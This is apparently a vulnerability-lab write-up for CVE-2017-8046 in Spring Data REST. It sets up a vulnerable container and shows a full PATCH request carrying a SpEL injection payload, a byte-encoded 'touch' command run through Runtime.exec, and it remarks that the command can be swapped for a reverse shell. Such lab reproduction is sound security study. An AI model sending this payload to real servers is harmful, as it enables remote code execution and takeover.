

Spring Data REST Remote Code Execution (CVE-2017-8046)¶
Spring Data REST is built on top of Spring Data to help developers easily create REST-style web services. In the Spring Data REST version before 2.6.9 or 3.0.1, the PATCH method of the REST API (implementing RFC6902), the path value is passed to setValue, which leads to the execution of SpEL expressions, triggering a remote code execution vulnerability.
Reference links:
- http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/
- https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html
Environment Setup¶
Execute the following command to start a Web application based on Spring Data REST 2.6.6:
docker compose up -d
After the server starts, visit http://your-ip:8080/ to see a JSON format response, indicating this is a RESTful API server.
Vulnerability Reproduce¶
Visit http://your-ip:8080/customers/1 to see a resource. We use a PATCH request to modify it:
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202
[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
The path value is a SpEL expression. Sending the above packet will execute the command touch /tmp/success represented by new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}. Then enter the container with docker compose exec spring bash to check:

As you can see, the file "/tmp/success" has been created successfully.
Change the bytecode to a reverse shell command (Note: Java reverse shell limitations and workarounds), and successfully get the shell: